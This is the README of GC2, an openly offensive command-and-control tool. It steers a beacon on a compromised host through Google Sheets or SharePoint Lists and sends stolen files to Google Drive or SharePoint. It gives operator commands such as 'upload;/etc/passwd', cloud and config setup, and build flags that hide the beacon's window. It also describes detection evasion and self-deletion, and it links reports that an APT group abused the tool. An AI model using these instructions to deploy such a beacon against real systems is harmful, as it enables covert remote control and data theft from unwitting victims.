








# GC2

<p align="center">
  
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet or Microsoft SharePoint List and exfiltrate files using Google Drive or Microsoft SharePoint Document.

# Why

This project has been developed to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google and Microsoft's domains (like *.google.com) to make network detection more difficult.

# Workflow

## Google
<p align="center">
  
</p>

## Microsoft
<p align="center">
  
</p>

# Features

- **Command execution** using Google Sheet or Microsoft SharePoint List as a console
- **Download files** on the target using Google Drive or Microsoft SharePoint Document
- **Data exfiltration** using Google Drive or Microsoft SharePoint Document
- Self-kill switch and **auto-delete** from the target machine

## Command execution

### Google

A Google Sheet will be automatically created by the C2. Once created you can interact with the compromised system as shown below.

   <p align="center">
        
    </p>

### Microsoft

A Microsoft SharePoint List will be automatically created by the C2. Once created you can interact with the compromised system as shown below.

   <p align="center">
        
    </p>

## Data exfiltration file

Special command is reserved to exfiltrate files form the target system.

 ```
From Target to Google Drive/Microsoft SharePoint Document
upload;<local path>
Example:
upload;/etc/passwd
 ```

Note: files with the same name are automatically overwritten.

## Download file

Special command is reserved to download files to the target system.

#### Google
 ```
 From Google Drive to Target
download;<google drive file id>;<local path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

#### Microsoft
Note: Files need to be saved in the SharePoint root folder, usually "Documents"
 ```
 From SharePoint to Target
download;<SharePoint file path>;<local path>
Example:
download;download.txt;/home/user/downloaded.txt
 ```

## Exit

By sending the *exit* command, the C2 will kill and delete itself from the target system.

PS: From *os* documentation:
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case, the symlink is deleted.

# Set up

This C2 support both Google (Google Sheet + Google Drive) and Microsoft (SharePoint Lists + SharePoint Document) services. To use the C2 you need to set up both the local and cloud configuration.

## Cloud config

### Google

1. **Create a new Google "service account"**
 
    Create a new Google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account. 

2. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go). 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and share it (as Editor) with the Service Account (by using its email).
    
    <p align="center">
        
    </p>
    
    Create a new Google Drive folder and share it (as Editor) with the Service Account (by using its email).
    
    <p align="center">
        
    </p>    

### Microsoft

To interact with Microsoft services you will first need a Business subscription (you can get one for free for the first 30 days).

1. **Create an Azure Application**

   Create a new Azure Aapplication as described here [https://learn.microsoft.com/en-us/graph/auth-v2-service?tabs=http](https://learn.microsoft.com/en-us/graph/auth-v2-service?tabs=http)

    <p align="center">
        
    </p>

   After creating the new application, enable the following Graph APIs:
   - Sites.ReadWrite.All
   - Files.ReadWrite.All

    <p align="center">
        
    </p>

### Local config

1. **Download the C2**

    The C2 can be cloned directly from GitHub:

    ```
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    ```

5. **Configure the C2**

    To configure the C2 you need to modify the `cmd/options.yml` file. The C2 supports both Google and Microsoft services, mixing them is also possible.

   *Only Google services*

    ```
   CommandService: "Google" # Google Sheet will be used as command service to pull commands and push commands' output
   FileSystemService: "Google" # Google Drive will be used as file system to download and exfiltrate files
   GoogleServiceAccountKey : "1234567890" # your escaped json file
   GoogleSheetID: "0987654321" # your Google Sheet ID (can be found in the URL)
   GoogleDriveID: "1234554321" # your Google Drive folder ID (can be found in the URL)
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
    ```
   Your Google service account key must be escaped before pasting it in the configuration file. You can use the following command to escape it:

    ```
   cat key.json | jq -r @json | sed 's/\\n/\\\\n/g' | sed 's/\"/\\"/g'
   ```

   *Only Microsoft services*
   
   ```
   CommandService: "Microsoft" # Microsoft SharePoint List will be used as command service to pull commands and push commands' output
   FileSystemService: "Microsoft" # Microsoft SharePoint Document will be used as file system to download and exfiltrate files
   MicrosoftTenantID: "567890098765" # your Azure Tenant ID where the Azure Application was created
   MicrosoftClientID: "098765567890" # your Azure Application ID
   MicrosoftClientSecret: "1234509876" # your Azure Application Secret value
   MicrosoftSiteID: "0987612345" # # your SharePoint ID
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
   ```

   *Mixing Google and Microsoft services*
   
   ```
   CommandService: "Google" # Google Sheet will be used as command service to pull commands and push commands' output
   FileSystemService: "Microsoft" # Microsoft SharePoint Document will be used as file system to download and exfiltrate files
   GoogleServiceAccountKey : "1234567890" # your escaped json file
   GoogleSheetID: "0987654321" # your Google Sheet ID (can be found in the URL)
   GoogleDriveID: "1234554321" # your Google Drive folder ID (can be found in the URL)
   MicrosoftTenantID: "567890098765" # your Azure Tenant ID where the Azure Application was created
   MicrosoftClientID: "098765567890" # your Azure Application ID
   MicrosoftClientSecret: "1234509876" # your Azure Application Secret value
   MicrosoftSiteID: "0987612345" # # your SharePoint ID
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
   ```

6. **Build the executable**

   Few examples on how cross compile the C2 for different OS and architecture. 

    ```
   env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w -H windowsgui"
   env GOOS=linux GOARCH=amd64 go build -ldflags "-s –w"
   env GOOS=darwin GOARCH=amd64 go build -ldflags "-s –w"
    ```

7. **Run**

    After compiling execute it.

    ```
    ./gc2-sheet
    ```
   
   The beacon will automatically create a new Google Sheet or Microsoft SharePoint List accordingly to your configuration.

## Troubleshooting

Most of the errors can be detected by setting the `verbose` flag to `true`. By default, the C2 does not generate any output or error information.

# DEF CON Slides + demo

[DEF CON Slide](https://drive.google.com/file/d/1cokEcUcxgR4pNRRF5lIXCsNW8kh4ME42/view?usp=sharing)

[Demo](https://youtu.be/n2dFlSaBBKo)

[Demo](https://youtu.be/pLfuZnLcR1o) by [Grant Collins](https://www.youtube.com/@collinsinfosec)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** or [](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)

## Contributors
[Paolo Conizzoli](https://github.com/paoloconi96)

# Articles related to this tool

[DEF CON 32](https://forum.defcon.org/node/249630); [DEF CON 32 Reddit](https://www.reddit.com/r/Defcon/comments/tx7tg2/mega_def_con_info_for_your_planning_enjoyment/)

[Google](https://services.google.com/fh/files/blogs/gcat_threathorizons_full_apr2023.pdf)

[The Hacker News](https://thehackernews.com/2023/04/google-uncovers-apt41s-use-of-open.html)

[Reddit](https://www.reddit.com/r/cybersecurity/comments/12u3wvl/top_cybersecurity_stories_for_the_week_of_041723/)

[LinkedIn](https://www.linkedin.com/pulse/hacking-tutorial-google-sheets-command-control-c2-server-maxwell-zhou/)

[Bleeping Computer](https://www.bleepingcomputer.com/news/security/hackers-abuse-google-command-and-control-red-team-tool-in-attacks/)

[Security Affairs](https://securityaffairs.com/144915/apt/china-apt41-tool-gc2.html)

[Icrewplay](https://tech.icrewplay.com/gc2-strumento-google-gruppo-cinese-apt41/?utm_content=cmp-true)

[Information Security Buzz](https://informationsecuritybuzz.com/google-uncovers-apt41-tools-targeting-media-and-job-sites/)

[Hackdig](http://en.hackdig.com/04/477620.htm)

[Hakin9](https://hakin9.org/gc2-command-and-control-application/)

[RedPacketSecurity](https://www.redpacketsecurity.com/gc2-a-command-and-control-application-that-allows-an-attacker-to-execute-commands-on-the-target-machine-using-google-sheet-and-exfiltrate-data-using-google-drive/)

[Cyware](https://cyware.com/news/apt41-uses-open-source-red-teaming-tool-gc2-9eaecb18)

[Kitploit](https://www.kitploit.com/2021/10/gc2-command-and-control-application.html)

News mentioning malware using the same concept:

[The Hacker News - Voldemort](https://thehackernews.com/2024/08/cyberattackers-exploit-google-sheets.html)
[Bleeping Computer - Voldemort](https://www.bleepingcomputer.com/news/security/new-voldemort-malware-abuses-google-sheets-to-store-stolen-data/)